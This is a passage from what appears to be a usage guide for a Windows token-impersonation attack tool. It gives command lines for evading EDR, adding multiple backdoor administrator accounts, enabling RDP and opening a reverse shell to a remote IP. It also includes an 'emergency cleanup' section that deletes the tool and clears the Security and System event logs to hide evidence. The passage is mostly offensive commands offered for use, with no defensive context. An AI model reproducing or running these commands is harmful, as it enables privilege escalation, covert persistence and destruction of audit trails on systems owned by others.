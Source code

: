 # If EDR present:
# - Use brute force (tries until success)
# - Avoid spawning new processes
# - Use existing shell PID
# - Create user instead of shell
14. Emergency Cleanup
powershell# If detected, remove evidence
net user hacker /delete
del TokenImpersonate.exe
Clear-EventLog -LogName Security
Clear-EventLog -LogName System
15. Smart Combinations
powershell# Combo 1: Silent persistence
.\TokenImpersonate.exe brute Administrator adduser svc-admin P@ssw0rd123!
.\TokenImpersonate.exe 540 rdp
# No shells = less detection

# Combo 2: Multiple backdoors
.\TokenImpersonate.exe 540 adduser backup1 Pass1!
.\TokenImpersonate.exe 540 adduser backup2 Pass2!
# Redundancy if one is discovered

# Combo 3: List, verify, execute
.\TokenImpersonate.exe list | findstr "SYSTEM" > procs.txt
# Review procs.txt
.\TokenImpersonate.exe 540 shell 192.168.19.128 4444

# Combo 4: Your PID + Brute force fallback
.\TokenImpersonate.exe $pid adduser hacker Pass123!
# If fails:
.\TokenImpersonate.exe brute Administrator adduser hacker Pass123!
16. Debugging Tips
powershell# If tool says SUCCESS but nothing happens:
# 1. Process likely spawned in Session 0 (invisible)
# 2. Use your current PID instead
# 3. Or create user and connect via WinRM/RDP
